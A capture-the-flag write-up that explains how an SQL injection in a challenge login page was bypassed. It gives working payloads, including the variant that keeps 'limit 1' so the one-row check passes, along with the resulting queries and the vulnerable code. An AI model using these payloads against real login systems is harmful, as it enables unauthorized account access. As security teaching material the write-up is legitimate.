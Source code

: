 # Login as User #2

With login page https://chal49-dsds35.vercel.app login as a valid user

# Solution

Obviously SQL injection with limits..

I was trying this payload but it wasn't working (even though within my local environment it was)

```json
{
	"user": "aaaa",
	"password": "'OR'1'LIKE'1'-- "
}
```

So the server side query would become:

```sql
SELECT userName, password, type, firstName, lastName FROM all_users
  WHERE userName = 'aaaa' and password = ''OR'1'LIKE'1'-- ' limit 1
```

Then I noticed this condition (which I was overlooking) within the `login` function:

```js
const login = async (userName, password) => {
	const rows = await getUser(userName, password);
	// THIS CONDITION!
	if (rows.length === 1) {
	//^^^^^^^^^^^^^^^^^^^^^^^^^^^
		return { message: "successfully logged on", type: rows[0].type, firstName: rows[0].firstName, lastName: rows[0].lastName, userName: rows[0].userName, status: "success" };
	}

	return { message: "Invalid username or password", status: "failed" };
};
```

This means my query, which was commenting out the `limit 1` part of the SQL query, was obviously returning more than 1 entry..

Modifying my query to the following worked:

```
{
  "user": "aaaa",
  "password": "'OR'1'LIKE'1" // <- leave the -- off as well as leave the last ' off
}
```

So the server side query becomes:

```sql
SELECT userName, password, type, firstName, lastName FROM all_users
  WHERE userName = 'aaaa' and password = ''OR'1'LIKE'1' limit 1
```

This allows the `limit 1` to remain and therefore hits the condition within `login` function.
